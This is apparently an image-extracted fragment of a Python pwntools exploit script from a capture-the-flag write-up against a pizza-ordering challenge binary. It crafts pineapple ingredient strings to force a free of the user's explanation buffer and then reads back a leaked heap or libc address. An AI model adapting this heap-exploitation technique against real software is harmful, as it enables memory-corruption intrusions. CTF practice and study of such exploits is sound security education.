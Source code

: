 ```
    qty = len(ingr)
    print target.recvuntil(">> how many pizzas? ")
    target.sendline(str(len(ingr)))
    for i in xrange(qty):
        pizzaQty = len(ingr[i])
        target.sendline(str(pizzaQty))
        for j in xrange(pizzaQty):
            target.sendline(ingr[i][j])
    
def cookPizzas(expl):
  print target.recvuntil("Choice: ")
  target.sendline("C")
  print target.recvuntil("Please explain: ")
  target.sendline(expl)

def leave():
  print target.recvuntil("Choice: ")
  target.sendline("L")

def admire():
  print target.recvuntil("Choice: ")
  target.sendline("A")


def login(name):
  print target.recvuntil("Choice: ")
  target.sendline("L")
  print target.recvuntil("your name? ")
  target.sendline(name)

def explainOverflow(payload):
  print target.recvuntil("Choice: ")
  target.sendline("P")
  print target.recvuntil("yourself: ")
  target.sendline(payload)

def infoLeak():
  print target.recvuntil("Choice: ")
  target.sendline("W")
  print target.recvuntil("to say: ")
  leak = target.recvline()
  leak = leak.replace("\x0a", "")
  leak = u64(leak + "\x00"*(8 - len(leak)))
  print "[+] [+] [+] leak is: " + hex(leak) 
  return leak


# Create the first user
newCustomer("guyinatuxedo")

# Setup the pizza ingredients to have the pineapple ingredient appended together, and pass the free check
pizzas = [[tomato]] +  [["\xe0" + pineapple[:2], pineapple[2:] + "00"]] * 16

# Order the pizzas
orderPizzas(pizzas)

# Cook the pizzas, cause Mario to get upset over pineapple, and cause our explanation to get freed
cookPizzas("0"*200)

# Go back to the first menu to get the infoleak
leave()

```